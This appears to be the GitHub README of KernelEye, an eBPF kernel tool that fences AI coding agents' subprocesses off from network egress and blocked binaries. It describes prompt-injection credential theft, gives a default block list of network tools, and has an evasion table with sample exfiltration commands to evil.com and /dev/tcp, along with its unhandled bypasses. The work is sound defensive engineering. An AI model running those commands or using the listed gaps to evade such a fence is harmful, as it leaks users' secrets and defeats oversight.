

<div align="center">


<br/><br/>

[](https://www.rust-lang.org/)
[](https://ebpf.io/)
[](https://aya-rs.dev/)
[-green.svg?style=flat-square&logo=linux)](https://kernel.org/)
[](LICENSE)

*Kernel-enforced isolation for autonomous coding agents (Claude Code, Cursor, OpenHands, Devin, Gemini CLI). Zero containers. Scoped process subtree confinement. ~3.2 µs interception overhead.*

---



</div>

---

## The Problem: The AI Agent Security Paradox

Autonomous coding agents require access to local compilers, project files, language runtimes, and git. However, granting an LLM-driven subshell unrestricted host access creates a critical security surface:

1. **Prompt Injection & Credential Exfiltration**: Injected instructions or malicious dependencies can direct an agent to harvest secrets (`$AWS_SECRET_ACCESS_KEY`, `~/.ssh/id_rsa`, `.env`) and dispatch them via `curl`, `wget`, or raw sockets.
2. **The Container Friction**: Running agents inside Docker/VMs isolates the workspace but impairs local developer ergonomics—breaking IDE language servers, hot-reloading, local SSH agents, and volume I/O performance.
3. **The Fragility of User-Space Wrappers**: Command regex filters (`banned = ["curl"]`) and `LD_PRELOAD` shims are easily bypassed via nested subshells, symlinks, dynamic linkers (`/lib64/ld-linux.so.2`), or in-memory Python raw sockets.

---

## The Solution: In-Kernel Process Fencing

**KernelEye** implements zero-container, host-native confinement directly within the Linux kernel using **eBPF Linux Security Modules (LSM)** and tracepoints.

Given an agent's process ID (`--fence-pid <PID>`), KernelEye dynamically isolates that process and **all descendant subshells, workers, and spawned processes**:

* **Layer 1: Binary Execution Gate (`lsm/bprm_check_security`)**  
  Intercepts the kernel's binary loader. Any attempt by the fenced subtree to invoke unauthorized binaries (e.g. `curl`, `wget`, `nc`, `ncat`, `socat`) is aborted inline with `-EPERM` (`Operation not permitted`).
* **Layer 2: Zero-Trust Network Egress Gate (`lsm/socket_connect`)**  
  Intercepts socket connection requests. Prevents interpreter evasion (e.g., `python -c "import socket; ..."`) by dropping outbound `AF_INET` / `AF_INET6` TCP/UDP connection attempts before packets reach the network stack. Local IPC (`AF_UNIX`) remains open for local tools and pipes.
* **Autonomous Lineage Tracking (`sched_process_fork` + `task_struct` Ancestry Walk)**  
  Children inherit fencing atomically via the `sched_process_fork` tracepoint. An in-kernel 4-generation `task_struct->real_parent` walk verifies ancestry on every security check to mitigate fork races.
* **Real-Time Telemetry & Instant Kill-Switch (`RingBuf`)**  
  Kernel violations are streamed over a lockless eBPF RingBuf to userspace as structured JSON alerts. With `--kill-on-violation`, the root agent session is terminated immediately with `SIGKILL`.
* **BPF CO-RE (Compile Once – Run Everywhere)**  
  BTF-backed type definitions dynamically resolve field offsets against the running kernel's BTF without brittle hardcoded offsets.

---

## Comprehensive Sandboxing Comparison

| Technology | Scope & Primary Strength | Trade-Offs & Limitations | Best Used For |
| :--- | :--- | :--- | :--- |
| **KernelEye (eBPF LSM)** | **Dynamic PID subtree fencing**: external daemon attaches to running agent, blocks banned binaries & network egress in-kernel with ~3.2 µs overhead. | Requires `CAP_BPF`/root to load. Does not currently restrict filesystem read access on disk. | **Zero-container host agent confinement & network exfiltration prevention.** |
| **Landlock LSM** | **Unprivileged filesystem access control**: allows processes to restrict their own file paths and directory hierarchies safely without root. | Process must voluntarily sandbox itself (cooperative). Landlock v1–v3 lacks network rules; cannot be dynamically attached to external arbitrary process trees. | **Workspace filesystem read/write path containment.** |
| **Bubblewrap (bwrap) / nsjail** | **Namespace isolation**: unprivileged user/mount/network/PID namespace sandboxing with chroot-like path masking. | Creates isolated mount and network namespaces; can break host IDE language servers, local socket IPC, and process monitoring tools. | **Isolated, ephemeral command execution sandboxes.** |
| **seccomp-bpf** | **Syscall filtering**: fast, unprivileged filtering of specific syscall numbers and scalar arguments. | Cannot dereference user pointers (cannot filter by file path string or target IP string). Cannot track dynamic process ancestry. | **Hardening attack surface by blocking dangerous syscalls (`ptrace`, `bpf`, `mount`).** |
| **Docker / LXC** | **Full container virtualization**: independent rootfs, cgroups, network namespaces, and resource limits. | High resource overhead, complex volume mounting, breaks local developer tooling and hot-reloading performance. | **Multi-tenant cloud agent execution environments.** |
| **User-Space Shims (`LD_PRELOAD`)** | **User-level API interception**: intercepts libc calls (`connect`, `execve`) in dynamically linked binaries. | Fragile: completely bypassed by statically linked binaries, Go runtimes, direct syscalls, or unsetting `LD_PRELOAD`. | **Legacy userspace auditing only (not a security boundary).** |

---

## System Architecture

```text
               Autonomous AI Agent Session (PID: 511114)
                 │
                 ├── [Legitimate Build] cargo build  --> ALLOWED (Exit 0)
                 │
                 └── [Injected Exfil] curl / python socket
                       │
       ════════════════╪════════════════════════════════════════════════════════
       KERNEL SPACE    │ (eBPF LSM + Tracepoints)
                       │
                       ▼
         [ sched:sched_process_fork ]
           └── Track & propagate fenced PID to child processes
                       │
                       ├──> [ lsm/bprm_check_security ]
                       │      ├── Extract binary basename (bounded scan)
                       │      ├── Match against BLOCKED_BINARIES BPF map
                       │      └── Match? --> Submit VIOLATIONS RingBuf & Return -EPERM!
                       │
                       └──> [ lsm/socket_connect ]
                              ├── Inspect sockaddr family (AF_INET / AF_INET6)
                              └── Confined process? --> Submit VIOLATIONS & Return -EPERM!
                                                          │
       ═══════════════════════════════════════════════════╪═════════════════════
       USER SPACE                                         ▼
                                                [ VIOLATIONS RingBuf ]
                                                          │
                                         [ Userspace Daemon (tokio AsyncFd) ]
                                           ├── Emit Structured JSON Alert
                                           └── --kill-on-violation: SIGKILL root PID!
```

---

## Evasion Vector & Bypass Analysis

A security boundary is only as strong as its honest threat model. Below is an evaluation of 15 concrete evasion vectors tested against KernelEye:

| # | Attack / Evasion Vector | Mechanism | Result | Defense Mechanism |
| :---: | :--- | :--- | :---: | :--- |
| **1** | Standard binary execution | `curl -s https://evil.com/exfil?key=...` | **BLOCKED** | Trapped by `bprm_check_security` (-EPERM). |
| **2** | Binary copy / rename | `cp /usr/bin/curl ./build_tool && ./build_tool` | **BLOCKED** | Trapped by `socket_connect` (-EPERM) on network egress. |
| **3** | Nested subshell execution | `bash -c "sh -c 'curl ...'"` | **BLOCKED** | Fencing propagated via `sched_process_fork` + ancestor walk. |
| **4** | Python in-memory TCP socket | `python -c "import socket; s=socket.socket(); s.connect(('1.1.1.1', 80))"` | **BLOCKED** | Trapped by `socket_connect` (-EPERM) before TCP handshake. |
| **5** | Bash built-in TCP egress | `echo token > /dev/tcp/1.1.1.1/80` | **BLOCKED** | Bash invokes `connect()`, trapped by `socket_connect` (-EPERM). |
| **6** | Double-fork daemonization | `python -c "os.fork(); os.fork(); exec(...)"` | **BLOCKED** | All fork children inherit PID membership in `PROTECTED_AGENT_PIDS`. |
| **7** | Dynamic linker execution | `/lib64/ld-linux-x86-64.so.2 /usr/bin/curl` | **BLOCKED** | Egress trapped by `socket_connect` (-EPERM). |
| **8** | Symlinked binary | `ln -s /usr/bin/curl ./tool && ./tool` | **BLOCKED** | Trapped by `bprm_check_security` (filename/comm) & `socket_connect`. |
| **9** | Connectionless UDP | `python -c "s=socket.socket(AF_INET, SOCK_DGRAM); s.sendto(b'data', ('1.1.1.1', 53))"` | **UNHANDLED** | `socket_connect` only gates `connect()`. Unconnected UDP requires `socket_sendmsg`. |
| **10** | Local Docker socket abuse | `curl --unix-socket /var/run/docker.sock ...` | **ALLOWED** | `AF_UNIX` is permitted by design; Docker daemon acts outside agent lineage. |
| **11** | SSH Agent relay | Commandeering `$SSH_AUTH_SOCK` for auth relay | **ALLOWED** | Operates over local `AF_UNIX` domain socket. |
| **12** | Local disk secret read | `cat ~/.ssh/id_rsa` or reading `.env` | **ALLOWED** | KernelEye blocks egress/exec, not disk reads. Recommend Landlock. |
| **13** | Localhost DNS exfiltration | Querying `127.0.0.53:53` with encoded domain | **BLOCKED** | `AF_INET` to 127.0.0.1 is blocked unless localhost loopback is whitelisted. |
| **14** | Ptrace attack on sibling | Attaching ptrace to unconfined host process | **BLOCKED** | Default Linux Yama LSM prevents non-parent ptrace attachments. |
| **15** | Legitimate developer build | `cargo build`, `gcc`, `make` | **ALLOWED** | Unrestricted; build artifacts compile with zero false positives. |

---

## Limitations & Explicit Threat Model Gaps

To maintain strict technical accuracy, the following architectural boundaries must be understood when deploying KernelEye:

1. **Connectionless UDP Sockets (`sendto`)**:  
   The `lsm/socket_connect` hook intercepts `connect()` syscalls. UDP sockets that call `connect()` are trapped. However, connectionless UDP sockets that issue `sendto()` without an initial `connect()` do not trigger `security_socket_connect` (they invoke `security_socket_sendmsg`). Addressing raw connectionless UDP requires hooking `lsm/socket_sendmsg` or adding an eBPF TC egress classifier.
2. **Local IPC & Daemon Proxying (`AF_UNIX`)**:  
   KernelEye permits `AF_UNIX` domain sockets to prevent breaking developer workflows (e.g. IDE language servers, build pipes, database sockets). If an agent process has read/write permissions to `/var/run/docker.sock`, `$SSH_AUTH_SOCK`, or systemd D-Bus, it can instruct those background daemons to execute actions on its behalf. Workloads spawned by systemd or Docker do not belong to the agent's PID tree. *Mitigation*: Unset sensitive socket environment variables in the agent subshell and restrict permissions on `/var/run/docker.sock`.
3. **Filesystem Read Access**:  
   KernelEye enforces **Execution Denial** and **Network Egress Denial**. It does not intercept file read operations. An agent can read local credentials from disk; KernelEye's role is to prevent those credentials from exiting the host or being executed. Pairing KernelEye with Linux **Landlock** or `lsm/file_open` provides complementary filesystem boundary isolation.
4. **Agent Model API Reachability Architecture**:  
   If an agent's root process is fenced directly, its own HTTP calls to LLM APIs (`api.anthropic.com`, `api.openai.com`) will be blocked by `socket_connect`. **Intended architecture**: The root LLM harness runs outside the network fence, while tool execution workers and subshells spawned by the agent are fenced using `--fence-pid <WORKER_PID>`.

---

## Quick Start

### Prerequisites
* Linux kernel `5.8+` with BPF LSM enabled (`CONFIG_BPF_LSM=y`, verify with `cat /sys/kernel/security/lsm`)
* Rust stable + nightly toolchain
* `bpf-linker` (`cargo install bpf-linker`)
* Root access (`sudo`) to attach LSM hooks

### Option A: Install Pre-Built Binary (Recommended)

```bash
# Download and extract the latest release
curl -sSLO https://github.com/rxhtt/kerneleye/releases/download/v0.1.0/kerneleye-v0.1.0-x86_64-linux.tar.gz
tar -xzf kerneleye-v0.1.0-x86_64-linux.tar.gz
cd kerneleye-v0.1.0-x86_64-linux

# Run the self-contained verification demo
sudo ./run_demo.sh
```

### Option B: Build from Source
```bash
# Clone the repository
git clone https://github.com/rxhtt/kerneleye.git
cd kerneleye/exec-snoop

# Compile eBPF kernel probes and userspace daemon
cargo xtask build --release -j 2
```

### 2. Run the Verification Demo
A scenario script demonstrating an agent attempt to exfiltrate AWS credentials:

```bash
sudo ./run_demo.sh
```

**Scenario Output:**
1. **Test 1 (Unfenced Host Run)**: Legitimate build succeeds $\rightarrow$ Agent invokes `curl` $\rightarrow$ Egress reaches network stack (`[UNRESTRICTED]`).
2. **Test 2 (KernelEye Fenced Run)**: Root agent session registered in `PROTECTED_AGENT_PIDS` $\rightarrow$ Build step succeeds $\rightarrow$ Exfiltration attempt trapped:
   ```text
   [CRITICAL] Subprocess failed: [Errno 1] Operation not permitted (-EPERM)
   {"event":"confinement_violation","timestamp_ns":1793846941559430144,"agent_pid":511114,"child_pid":511176,"comm":"curl","binary":"/usr/bin/curl"}
   [BLOCKED BY KERNEL LSM] Unauthorized curl invocation trapped by kernel.
   [KILL-SWITCH] Terminating fenced root agent session (PID 511114) with SIGKILL.
   ```

---

## CLI Reference

```text
Usage: exec-snoop [OPTIONS]

Options:
      --fence-pid <PID>    Target PID(s) to fence. Any child spawned by these PIDs will be restricted
      --block <BLOCK>      Comma-separated list of unauthorized binary basenames [default: curl,wget,nc,ncat,socat]
      --kill-on-violation  Terminate the fenced root agent session immediately upon confinement violation
  -h, --help               Print help
```

### Example: Fencing an Agent Subshell
```bash
# Fence an agent worker process (e.g. PID 48102) and auto-kill on violation
sudo ./target/release/exec-snoop \
  --fence-pid 48102 \
  --block "curl,wget,nc,ncat,socat,ssh" \
  --kill-on-violation
```

---

## Licensing

This project is dual-licensed to accommodate standard Linux kernel eBPF constraints and permissive userspace development:

* **eBPF Kernel Probes (`exec-snoop-ebpf`)**: Licensed under **GNU General Public License v2.0 (GPL-2.0)** to permit binding with GPL-only kernel helpers and LSM infrastructure.
* **Userspace Daemon (`exec-snoop`) & Common Types (`exec-snoop-common`)**: Dual-licensed under **MIT License** OR **Apache License 2.0**.
